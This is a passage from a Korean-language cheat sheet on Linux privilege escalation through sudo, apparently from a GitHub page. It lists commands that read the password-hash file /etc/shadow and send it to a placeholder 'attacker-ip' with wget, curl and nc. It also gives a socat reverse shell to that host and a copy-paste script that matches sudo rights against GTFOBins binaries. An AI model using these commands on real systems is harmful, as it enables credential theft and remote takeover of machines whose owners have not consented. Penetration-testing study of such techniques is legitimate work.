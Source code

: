 ### 🔧 기타 도구들

```bash
# cat으로 파일 읽기 (/etc/shadow)
sudo cat /etc/shadow

# head/tail로 파일 읽기
sudo head -c 1G /etc/shadow
sudo tail -c 1G /etc/shadow

# xxd로 파일 읽기
sudo xxd /etc/shadow | xxd -r

# base64로 파일 읽기
sudo base64 /etc/shadow | base64 --decode

# dd로 파일 읽기
sudo dd if=/etc/shadow of=/tmp/shadow 2>/dev/null

# wget/curl로 파일 업로드
sudo wget --post-file=/etc/shadow http://attacker-ip/
sudo curl -X POST --data-binary @/etc/shadow http://attacker-ip/

# nc로 파일 전송
sudo nc -w 3 attacker-ip 4444 < /etc/shadow

# socat으로 리버스쉘
sudo socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker-ip:4444
```

## 🤖 자동화 도구 활용

### 🔍 sudo 권한 자동 분석 스크립트

```bash
# sudo 권한 종합 분석 (복붙용)
sudo_analysis() {
    echo "=== SUDO PERMISSIONS ANALYSIS ==="

    # 기본 sudo 권한
    echo "[+] Basic sudo permissions:"
    sudo -l 2>/dev/null

    echo -e "\n[+] NOPASSWD commands:"
    sudo -l 2>/dev/null | grep NOPASSWD

    echo -e "\n[+] Environment variables:"
    sudo -l 2>/dev/null | grep -E "(env_keep|env_reset)"

    echo -e "\n[+] GTFOBins matches:"
    gtfobins_sudo="bash sh zsh dash fish vim nano emacs ed view python python3 perl ruby lua node find nmap gdb strace more less man journalctl cp mv tar rsync zip"
    for binary in $gtfobins_sudo; do
        sudo -l 2>/dev/null | grep -q "$binary" && echo "FOUND: $binary"
    done

    echo -e "\n[+] Wildcard usage:"
    sudo -l 2>/dev/null | grep "*"

    echo -e "\n[+] Script files:"
    sudo -l 2>/dev/null | grep -E "\.sh|\.py|\.pl|\.rb"
}

```
